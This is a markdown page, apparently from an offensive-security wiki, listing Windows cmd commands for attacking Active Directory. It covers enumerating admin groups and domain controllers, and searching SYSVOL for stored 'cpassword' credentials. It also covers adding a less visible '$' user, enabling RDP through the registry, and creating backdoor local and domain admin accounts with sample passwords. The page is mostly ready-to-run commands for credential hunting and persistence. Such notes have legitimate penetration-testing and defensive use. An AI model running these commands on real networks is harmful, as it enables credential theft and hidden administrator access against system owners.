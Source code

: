 ```yaml
---
title : "cmd"
# pre : '<i class="fas fa-code"></i> '
description : "Microsoft Command Prompt."
date : 2020-07-09T12:52:37+02:00
# hidden : true
# draft : true
weight : 20
# tags : ['']
---
```


---

Command Prompt.

{{%resources fa_icon_class="far fa-file" pattern=".*(exe)"/%}}

### Show Domain Admins / Enterprise Admins

`net group "Domain Admins" /domain`

`net group "Enterprise Admins" /domain`

### Run CMD on non-domain joined machine as domain user

`runas /netonly /user:<DOMAIN>\<USER> cmd.exe`

Use the `/profile` flag for running the CMD in the context of the user explicitly on a domain joined system.

`runas /profile /user:<DOMAIN>\<USER> cmd.exe`

Or start an elevated prompt using CMD / PowerShell

`powershell -Command "Start-Process cmd -Verb RunAs"`

### Enable access to C-drive in Explorer

`subst z: c:\`

### Finding cpassword

`findstr /s /n /i /p cpassword \\<DOMAIN>\sysvol\*`

### Show privileges current user

```plain
$ whoami /all

USER INFORMATION
----------------

User Name        SID
================ =============================================
win10\johndo S-1-5-21-4192065701-4228146649-662612674-1001


GROUP INFORMATION
-----------------

Group Name                                                    Type             SID          Attributes
============================================================= ================ ============ ==================================================
Everyone                                                      Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account and member of Administrators group Well-known group S-1-5-114    Group used for deny only
BUILTIN\Administrators                                        Alias            S-1-5-32-544 Group used for deny only
BUILTIN\Users                                                 Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\REMOTE INTERACTIVE LOGON                         Well-known group S-1-5-14     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\INTERACTIVE                                      Well-known group S-1-5-4      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users                              Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization                                Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Local account                                    Well-known group S-1-5-113    Mandatory group, Enabled by default, Enabled group
LOCAL                                                         Well-known group S-1-2-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication                              Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level                        Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                          State
============================= ==================================== ========
SeShutdownPrivilege           Shut down the system                 Disabled
SeChangeNotifyPrivilege       Bypass traverse checking             Enabled
SeUndockPrivilege             Remove computer from docking station Disabled
SeIncreaseWorkingSetPrivilege Increase a process working set       Disabled
SeTimeZonePrivilege           Change the time zone                 Disabled
```

### List domain controllers (DC)

```cmd
$ nltest /dclist:offsec.nl

Get list of DCs in domain 'offsec.nl' from '\\DC2016.offsec.nl'.
    DC2008R2.offsec.nl [PDC]  [DS] Site: Default-First-Site-Name
      DC2016.offsec.nl        [DS] Site: Default-First-Site-Name
      DC2019.offsec.nl        [DS] Site: Default-First-Site-Name
The command completed successfully
```

### Add less visible user

Local admin required.

`net user $ LetMeIn123! /add /active:yes`

### Enable / disable Remote Desktop (RDP)

You can enable (remotely) Remote Desktop (RDP) by adjusting the register key. Tip: use 'smbexec.py' / 'wmiexec.py' to enable on remote system where RDP is not enabled. Or use the CrackMapExec module RDP see [CrackMapExec]({{< ref "tools/framework/crackmapexec" >}}).

Enable

`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f`

Disable

`reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 1 /f`

### Add Local Admin via CMD

Creation of the user 'NewLaForMe' - `net user NewLAForMe "NotThatStrongPassword@" /add /Y`

Adding the user to the group - `net localgroup Administrators NewLAForMe /add`

### Add Domain Admin / Enterprise Admin via CMD

Creation of the user 'NewDAForMe' - `net user NewDAForMe "NotThatStrongPassword@" /add /domain /Y`

Adding the user to the group - `net group "Domain Admins" NewDAForMe /add /domain` / `net group "Enterprise Admins" NewDAForMe /add /domain`

Set user status to Active - `net user NewDAForMe /active:yes /domain`

Set user expire date - `net user NewDAForMe /expires:07/19/23 /domain`
